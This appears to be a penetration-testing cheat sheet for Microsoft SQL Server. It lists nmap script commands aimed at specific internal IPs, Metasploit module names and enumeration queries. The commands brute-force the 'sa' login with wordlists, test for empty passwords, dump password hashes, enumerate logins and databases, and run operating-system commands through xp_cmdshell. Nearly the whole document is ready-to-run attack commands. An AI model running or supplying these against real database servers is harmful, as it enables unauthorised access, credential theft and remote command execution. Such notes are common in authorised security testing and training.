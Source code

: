 # MS SQL
## nmap scripts
nmap -v -Pn 10.2.20.120 -p1433 --script=broadcast-ms-sql-discover  
nmap -v -Pn 10.2.20.120 -p1433 --script=ms-sql-config  
nmap -v -Pn 10.2.20.120 -p1433 --script=ms-sql-info  
nmap -v -Pn 10.2.20.120 -p1433 --script=ms-sql-ntlm-info  
nmap -v -Pn 10.2.20.120 -p1433 --script=ms-sql-empty-password  
nmap -v -Pn 10.2.16.168 -p1433 --script=ms-sql-brute --script-args=userdb=Desktop/wordlist/common_users.txt,passdb=Desktop/wordlist/100-common-passwords.txt  
nmap -v -Pn 10.2.20.120 -p1433 --script=ms-sql-query --script-args=mssql.username=sa,mssql.password='',ms-sql-query.query='SELECT @@version;'  
nmap -v -Pn 10.2.20.120 -p1433 --script=ms-sql-dump-hashes --script-args=username=sa,password=''  
nmap -v -Pn 10.2.20.120 -p1433 --script=ms-sql-hasdbaccess --script-args=mssql.username=sa,mssql.password=''  
nmap -v -Pn 10.2.20.120 -p1433 --script=ms-sql-tables --script-args=mssql.username=sa,mssql.password=''  
nmap -v -Pn 10.2.20.120 -p1433 --script=ms-sql-xp-cmdshell --script-args=mssql.username=sa,mssql.password='',ms-sql-xp-cmdshell.cmd='whoami'  
## internal ms sql commands
SELECT @@version  
SELECT user_name();  
SELECT system_user;  
SELECT user;  
SELECT name FROM master..syslogins  
SELECT name FROM master..sysdatabases;  
## metasploit modules
auxiliary/scanner/mssql/mssql_login  
auxiliary/admin/mssql/mssql_enum (with cred)  
auxiliary/admin/mssql/mssql_exec (with cred)  
auxiliary/admin/mssql/mssql_enum_sql_logins (with cred)  
auxiliary/admin/mssql/mssql_enum_domain_accounts (with cred)  
auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli (with cred)  
